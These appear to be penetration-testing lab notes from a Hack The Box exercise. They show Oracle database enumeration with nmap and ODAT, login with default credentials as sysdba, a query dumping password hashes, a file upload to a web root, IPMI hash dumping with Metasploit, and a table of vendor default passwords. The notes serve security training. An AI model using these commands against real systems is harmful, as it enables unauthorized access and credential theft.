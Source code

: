 sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

```
0x4ns3nic@htb[/htb]$ sudo nmap -p1521 -sV 10.129.204.235 --open
0x4ns3nic@htb[/htb]$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
0x4ns3nic@htb[/htb]$ ./odat.py all -s 10.129.204.235
# Connecting
0x4ns3nic@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE
# error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
0x4ns3nic@htb[/htb]$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
0x4ns3nic@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba
## Interaction
SQL> select * from user_role_privs;
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;
SQL> select name, password from sys.user$;
0x4ns3nic@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

Linux	/var/www/html
Windows	C:\inetpub\wwwroot

## IPMI

```
0x4ns3nic@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

```

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |
